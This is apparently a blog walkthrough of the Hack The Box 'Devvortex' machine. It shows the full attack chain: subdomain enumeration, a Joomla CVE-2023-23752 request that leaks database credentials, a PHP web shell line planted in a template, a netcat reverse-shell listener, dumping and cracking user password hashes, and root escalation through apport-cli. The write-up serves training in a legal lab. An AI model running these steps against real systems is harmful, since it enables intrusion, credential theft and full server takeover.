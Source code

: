 ```yaml
---
title: "Devvortex"
tags:
    - machine
    - cms
date: "2024-04-27"
thumbnail: "/assets/img/thumbnail/Devvortex.png"
bookmark: true
---
```


# Description
---

<img src="/assets/img/thumbnail/Devvortex.png" alt="Devvortex">

# Solution
## Recon
---

Applying nmap scan

```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/devvortex]
└─$ nmap -sV -sC -Pn -oA devvortex 10.10.11.242
Nmap scan report for 10.10.11.242
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
we see that there's a web service on port 80 and there's a domain devvortex.htb should be submitted in `/etc/hosts` file
when we add the domain to /etc/hosts we can visit the site now
<img src="/assets/img/htb/devvortex/1.png">
After examining the site you won't find any interesting thing so let's do more reconnaisance.

```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/devvortex]
└─$ gobuster dir -u http://10.10.11.242/ -w ~/Desktop/tools/SecLists/Discovery/Web-Content/raft-small-directories.txt -b 302
```
but I got no useful results, so let's try subdomain enumeration

```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/devvortex]
└─$ ffuf -u http://10.10.11.242 -H "Host: FUZZ.devvortex.htb" -w ~/Desktop/tools/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 153ms]
```
## shell as www-data
---
We found a subdomain here which is `dev.devvortex.htb`. let's add it to /etc/hosts file and visit the subdomain.
<img src="/assets/img/htb/devvortex/2.png">
After examining the site you won't find any interesting thing also so let's do more reconnaisance.
I found interesting endpoints in `/robots.txt` endpoint.
<img src="/assets/img/htb/devvortex/3.png">
when you visit `/administrator` endpoint you will find login page powered by joomla cms.
You can find tips for joomla pentesting <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla">here</a>.
you will find in the link above that `/administrator/manifests/files/joomla.xml` endpoint let's you know the version of joomla.
<img src="/assets/img/htb/devvortex/4.png">
We see that the version is `v4.2.6` which we can find that it's vulnerable to `CVE-2023-23752`.
You can find many articles about the cve <a href="https://vulncheck.com/blog/joomla-for-rce">here</a> as example and from them i appended `/api/index.php/v1/config/application?public=true` to the url and got this
<img src="/assets/img/htb/devvortex/5.png">
Nice we got credentials `lewis:P4ntherg0t1n5r3c0n##` which will be used to login to joomla dashboard.
continue reading in <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla">this</a> and you will find what you should do next.
You should go to system and you will find many templates i choosed `Administrator Templates` and find many files.
I opened `index.php` and added this line `system($_GET['cmd']);` so when i visit this `http://dev.devvortex.htb/administrator/index.php?cmd=whoami` I see `www-data` which is the result of whoami command in the beginning of the site
<img src="/assets/img/htb/devvortex/6.png">
Nice we have RCE let's get a shell.
setting up a listerner at port 4444
```bash
┌──(youssif㉿youssif)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```
and i went to <a href="https://www.revshells.com/">revshells</a> for the reverse shell payload.
You can use many php shells as the payload will be inserted in php code (I used pentest monkey php shell) added it to index.php file in the admin templates and i got the shell as `www-data`

## shell as logan
---
stablize the shell using ```python3 -c "import pty;pty.spawn('/bin/bash)"```
If you remember the article of the CVE we used, The credentials are usually for MYSQL db and when we use the command ```ss -tulpn``` we find that port 3306 is used which is the default for MYSQL.
Let's access MYSQL db
```bash
www-data@devvortex:/$ mysql -u lewis -p
mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n## 
```
We accessed the db successfully and after digging into it we found `sd4fg_users` table in joomla database
```bash
mysql> select username,password from sd4fg_users;
select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```
we have two users with two hashed passwords i tried to crack them but only the password of the user logan is cracked successfully.
```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/devvortex]
└─$ john hash --show                                            
?:t************

1 password hash cracked, 0 left
```

I used this password in ssh ```ssh logan@10.10.11.242```
and congrats u are logan now
<img src="/assets/img/htb/devvortex/7.png">
```bash
logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt 
1*******************************
```

## shell as root

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
We find that there's a command you can execute using sudo
I found that this command is vulnerable to privesc <a href="https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/">here</a>.
Briefly you will walkthrough the choices until you get view report which will be opened in a less page as root so you can execute `!/bin/bash` as root and now you are root.
```bash
root@devvortex:/home/logan# cd /root
root@devvortex:~# cat root.txt 
b*******************************
```
I wish the walkthrough helped you ^^

<img src="/assets/img/htb/devvortex/8.png">
